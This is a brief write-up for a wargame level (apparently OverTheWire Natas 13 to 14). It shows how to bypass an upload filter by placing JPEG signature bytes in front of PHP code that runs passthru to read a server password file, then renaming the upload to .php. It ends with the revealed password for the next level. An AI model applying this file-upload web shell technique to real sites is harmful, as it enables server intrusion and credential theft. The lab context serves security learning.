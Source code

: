 # Level 13 to Level 14

Similar to the previous level, although it checks for [signature of the file](https://en.wikipedia.org/wiki/List_of_file_signatures)

Use a Hexeditor and write the jpg image signature as first bytes, then continue with php code
```
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 0a 3c 3f 70  |......JFIF...<?p|
00000010  68 70 20 0a 65 63 68 6f  20 70 61 73 73 74 68 72  |hp .echo passthr|
00000020  75 28 22 63 61 74 20 2f  65 74 63 2f 6e 61 74 61  |u("cat /etc/nata|
00000030  73 5f 77 65 62 70 61 73  73 2f 6e 61 74 61 73 31  |s_webpass/natas1|
00000040  34 22 29 3b 0a                                    |4");.|
00000045
```
Modify the extension to be `php` instead of `jpg` in HTTP payload, before seding it

`Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`